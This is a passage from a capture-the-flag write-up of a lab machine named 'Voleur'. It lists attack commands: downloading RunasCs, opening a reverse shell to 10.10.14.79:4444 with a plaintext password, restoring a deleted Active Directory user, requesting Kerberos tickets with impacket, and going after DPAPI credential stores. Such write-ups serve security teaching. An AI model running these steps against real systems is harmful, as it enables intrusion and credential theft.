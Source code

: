 ```
wget https://github.com/antonioCoco/RunasCs/releases/download/v1.5/RunasCs.zip
unzip RunasCs.zip
```

We upload it to the target machine via **Evil-WinRM** using the **svc_winrm** account.

```
upload RunasCs.exe
```

Next, we execute a **Reverse Shell** to access the machine as **svc_ldap**.

```
.\RunasCs.exe svc_ldap M1XyC9pW7qT5Vn powershell.exe -r 10.10.14.79:4444
```

![14](/images/writeups/voleur/14.png)

Once inside, we **search for the deleted user**.

```
Get-ADObject -Filter 'isDeleted -eq $true' -IncludeDeletedObjects
```

![15](/images/writeups/voleur/15.png)


We **restore** it using its **ObjectID**.

```
Restore-ADObject -Identity 1c6b1deb-c372-4cbb-87b1-15031de169db
```

![16](/images/writeups/voleur/16.png)

With the **todd.wolfe** account restored, we can now access its shared resources. Before doing so, we create a **TGT** for this user so we can authenticate correctly and use their permissions.

```
faketime "$(ntpdate -q voleur.htb | awk '{print $1 " " $2}')" impacket-getTGT voleur.htb/'todd.wolfe':'NightT1meP1dg3on14'
export KRB5CCNAME=$PWD/todd.wolfe.ccache
```

```
faketime "$(ntpdate -q voleur.htb | awk '{print $1 " " $2}')" impacket-smbclient -k -no-pass -dc-ip 10.10.11.76 VOLEUR.HTB/todd.wolfe@dc.voleur.htb
```

Accessing the system as **todd.wolfe**, we can explore their `AppData/Roaming/Microsoft` directory, which contains critical folders like **Credentials**, **Crypto**, and **Vault**. These folders store sensitive information protected by **DPAPI** (Data Protection API), used by **Windows** to encrypt **passwords**, **keys**, and **user certificates**.

Since we are already authenticated as the user, we can extract these files and **decrypt** them locally without attacking other account hashes. This exploits the known **DPAPI Weakness** / **Credential Store Exposure**, allowing us to retrieve the current user’s encrypted secrets.

![16.1](/images/writeups/voleur/16.1.png)
